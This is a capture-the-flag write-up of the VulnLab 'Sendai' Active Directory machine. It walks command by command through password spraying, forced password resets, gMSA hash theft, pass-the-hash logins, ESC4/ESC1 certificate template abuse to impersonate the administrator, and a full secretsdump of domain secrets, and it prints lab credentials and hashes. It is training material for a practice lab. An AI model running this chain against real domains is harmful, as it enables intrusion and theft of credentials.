

# Sendai

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Sendai** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 60301,3268,9389,445,49668,636,593,3269,60270,389,464,80,3389,60319,135,49670,5985 --min-rate=1000 10.10.109.249
```



Now let’s enumerate the shares

```bash
nxc smb sendai.vl -u 'guest' -p '' --shares
```


> Notice that we have access to 2 shares
> 

So let’s connect to sendai share

```bash
smbclient \\\\sendai.vl\\sendai -U "sendai.vl\guest"
```


> As we see we have access to a file named incident.txt
> 

So let’s download the file

```bash
get incident.txt
```


Now let’s see the file content

```bash
cat incident.txt
```


> As the message say the pentesters revealed that there was alot of user using weak password and there password is expired and need to be changed on the next login
> 

Now let’s enumerate the users on the domain

```bash
nxc smb sendai.vl -u 'guest' -p '' --rid-brute 10000
```


Now let’s copy the output to a file and extract the users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```


Now let’s start spraying the users with empty password

```bash
nxc smb sendai.vl -u users.txt -p '' --continue-on-success
```


> Notice that we got users that must change there password
> 

So let’s go and change the password of user Elliot.Yates

```bash
python3 smbpasswd.py -newpass 'remo123$' 'sendai.vl'/'Elliot.Yates':''@'10.10.109.249'
```


> As we see we changed the user password
> 

So let’s validate the user password

```bash
nxc smb sendai.vl -u Elliot.Yates -p 'remo123$'
```


> As we see we now have a valid domain creds
> 

Now let’s go and get a bloodhound

```bash
bloodhound-python -ns 10.10.109.249 -d sendai.vl -u 'Elliot.Yates' -p 'remo123$' -c all --zip
```


Now let’s see our user privilege


> Notice that we have generic all rights to a group named ADMSVC
> 

So let’s go and add ourself to the group

```bash
bloodyAD --host "10.10.109.249" -d sendai.vl -u 'Elliot.Yates' -p 'remo123$' add groupMember "ADMSVC" "Elliot.Yates"
```


Now let’s go and see what ADMSVC group can do


> Notice that the users in ADMSVC group can read the gMSA password of the user MGTSVC$
> 

So let’s go and retrieve the  NTLM hash of the user MGTSVC$

```bash
nxc ldap sendai.vl -u Elliot.Yates -p 'remo123$' --gmsa
```


Now let’s go and validate the user Hash

```bash
nxc smb sendai.vl -u mgtsvc$ -H 'c15a7132cd45d7e342dc14f29b50b54c'
```


And we have access to this user!

Now let’s try to login using this user

```bash
evil-winrm -i sendai.vl -u 'mgtsvc$' -H 'c15a7132cd45d7e342dc14f29b50b54c'
```


Now let’s enumerate the shares using this user

```bash
nxc smb sendai.vl -u mgtsvc$ -H 'c15a7132cd45d7e342dc14f29b50b54c' --shares
```


> Notice that we have access to the config share
> 

So let’s connect to it

```bash
smbclient \\\\sendai.vl\\config -U "sendai.vl\mgtsvc$" --pw-nt-hash
```


As we see we have access to sqlconfig file


So let’s download the file

```bash
get .sqlconfig
```


Now let’s see file content

```bash
cat .sqlconfig
```


> Notice that we got the password for the account sqlsvc
username: sqlsvc
password: SurenessBlob85
> 

Now let’s validate the password

```bash
nxc smb sendai.vl -u 'sqlsvc' -p 'SurenessBlob85'
```


As we see we have access to the user sqlsvc

Now let’s go back to the session of mgtsvc$ and try to search for privilege escalation

```bash
upload PrivescCheck.ps1
```


Now let’s run the script

```bash
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```


Now let’s see if we can find anything interesting


> Notice that we found a password for a user named clifford.davey
username: clifford.davey
password: RFmoB2WplgE_3p
> 

Let’s test the new user password

```bash
nxc smb sendai.vl -u clifford.davey -p 'RFmoB2WplgE_3p'
```


As we see the password is working

Now let’s see the new user permissions


> Notice that the user is in CA group
> 

Now let’s go and enumerate the certificate templates

```bash
certipy-ad find -u clifford.davey@sendai.vl -p RFmoB2WplgE_3p -dc-ip 10.10.109.249
```


Now let’s search for any ESC vulnerability

```bash
cat 20250402193615_Certipy.txt | grep -i ESC
```


> Notice that we found ESC 4 vulnerable template
> 

Now let’s first make the certificate vulnerable to ESC1

```bash
certipy-ad template -u clifford.davey -p RFmoB2WplgE_3p -template SendaiComputer -dc-ip 10.10.109.249 -save-old
```


Now let’s request the CA and change the UPN to the administrator UPN

```bash
certipy-ad req -ca 'sendai-DC-CA' -dc-ip '10.10.109.249' -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -template 'SendaiComputer' -target 'dc.sendai.vl' -upn 'administrator@sendai.vl'
```


Now let’ authenticate and retrieve the administrator NTLM hash

```bash
certipy-ad auth -pfx administrator.pfx
```


Now let’s go and dump all the domain secrets

```bash
impacket-secretsdump sendai.vl/'administrator':''@10.10.109.249 -dc-ip 10.10.109.249 -hashes :cfb106feec8b89a3d98e14dcbe8d087a
```


Now let’s login using the administrator hash

```bash
evil-winrm -i sendai.vl -u 'administrator' -H 'cfb106feec8b89a3d98e14dcbe8d087a'
```


Now let’s navigate to the administrator desktop and see the flag

```bash
cd c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Sendai** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX